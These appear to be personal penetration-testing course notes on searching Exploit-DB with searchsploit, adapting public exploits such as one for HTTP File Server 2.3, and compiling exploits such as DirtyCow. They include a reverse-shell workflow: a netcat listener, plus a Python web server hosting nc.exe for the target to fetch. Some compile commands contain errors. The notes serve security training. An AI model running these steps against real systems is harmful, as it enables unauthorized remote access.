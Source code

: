 
**Searching for exploits** 

After identifying a potential vulnerability with a target or service running on a target. 

##### Searching public available exploits 
- searching online is risky  (exploit code can be malicious)
- trustworthy databases: Exploit-db & Rapid7
- google search: `   [vulnerability] site:Rapid7.com`
- Github
- packet storm 



#####  Searching with SearchSploit
- Exploit-db comes pre-packed with kali 
- Exploit-db can be queried using SearchSploit 
  

#####  How to use searchsploit  
	- sudo apt-get update && sudo apt-get install exploit-db -y
	- ls -al /usr/share/exploitdb
	- ls -al /usr/share/exploitdb/exploits 

- exploit-db is updated daily  so you need to update using -u: `searchsploit -u `
- `searchsploit` 
- `searchsploit service` 
- `searchsploit service version`
- `searchsploit -m exploit_id-number`
- `searchsploit -m /path `
  copy an exploit in to your current working directory?
- `ls -al `--> `vim exploit_file`
- `searchsploit -c keyword`
- `searchsploit -t title_keyword`
- `searchsploit -e  "keywords/titel"`
- `searchsploit -e  "keywords/titel"`` | grep -e "match with"`
- `searchsploit remote Operating_system service ` 
  search for exploits that match parameter 
- `searchsploit remote windows buffer`
- `searchsploit remote linux service`
- `searchsploit remote wordpress | grep -e "webapps"`
- `remote windows smb -w 
  list online links to download and see exploit code
- `sudo cp /usr/share/exploitdb/exploits/windows/remote/42031.py .`  
  copy exploit manually 


----

### Fixing exploits 
Public exploit code sneeds to be adjusted to own requirements (port, ip etc)

- `nmap -sV ip` 
- `searchsploit HTTP File Server 2.3`
- `searchsploit -m exploit_id` 
  make copy of exploit
- `vim exploit_file`
  Analyze exploit on high level , and check if you need to modify the code (adding ip and port, nc executable)
	  - netcat executable: `cp /usr/share/windows-resources/binaries/nc.exe `
	    
3 windows: 
- (terminal 1) 	running exploit itself - launch exploit
	- ` file.py target_ _ip and service_port`
- (terminal 2) setup webserver to host netcat executable 
	- `python -m SimpleHTTPServer 80` 
- (terminal 3)   netcat listner will be running, obtain command shell session
	- `nc -nvlp 1234`


**Identifying and Preparing Exploits:**
1. Search for available exploits related to the target service (e.g., HTTP File Server 2.3):
	    - `searchsploit HTTP File Server 2.3`
1. If needed, display the details of a specific exploit and make a copy of it (replace `exploit_id` with the actual exploit ID):
	    - `searchsploit -m exploit_id`
2. Copy the netcat (nc.exe) executable to your working directory:
	    - `cp /usr/share/windows-resources/binaries/nc.exe .`
      
**Setting Up Exploit:** 
4. Open the exploit file using a text editor (e.g., Vim):
	- `vim exploit_file`
	 Analyze the exploit code at a high level and check if any modifications are required. This may involve adding the target IP address and service port, as well as specifying the path to the netcat executable if necessary.

**Setting Up Webserver:** 
6. In Terminal 2, set up a web server to host the netcat executable:
	- `python -m SimpleHTTPServer 80
	  `
**Listening for Incoming Connections:** 
7. In Terminal 3, start a netcat listener to capture the shell session:
	- `nc -nvlp 1234`
	This reordering ensures that the identification and preparation of exploits take place before the actual exploit execution, and the netcat setup is done before listening for incoming connections.
	
**Run Exploit**
In Terminal 1, run the exploit script with the target IP address and service port:
- `python exploit_file target_ip service_port`



----




### Cross-Compiling Exploits 
- Exploit code can also be developed in C/C++/c# as result. you need to compile the exploit code in to a PE (portable executable) or binary 
- Cross-compiling is the process of compiling code for a platform other than the one performing the compilation. 

##### Exploit code developed in C

Tools needed: Mingw-w64 en gcc
	install on kali:` sudo apt-get install mingw-w64`
							`sudo apt-get install gcc` 

Download the exploit:
- `searchsploit keyword `
- `searchsploit -m exploit_id`
Recommend to download  32 bit exploit (will run on both 32 and 64 bit systems)

inspect c file (sometimes comments with how to compile are included)
- `vim file`

compile for 64 bit systems
- `i686-w64-mingw32-gcc c_file -o portable_executable_file_name`

compile for 32 bit system: 
- `i686-w64-mingw32-mingw32-gcc c_file -o portable_executable_file_name -lws2_32 
![[Pasted image 20230901111125.png]]


DirtyCow exploit 
- `searchsploit Dirty Cow` 
- `searchsploit -m 40839.c` 
- `gcc -pthread 40839.c -o exploit -lcrypt` 


compilation with gcc is only for linux 
Precompiled binaries can be found on github page of offensive security 
![[Pasted image 20230901111625.png]]






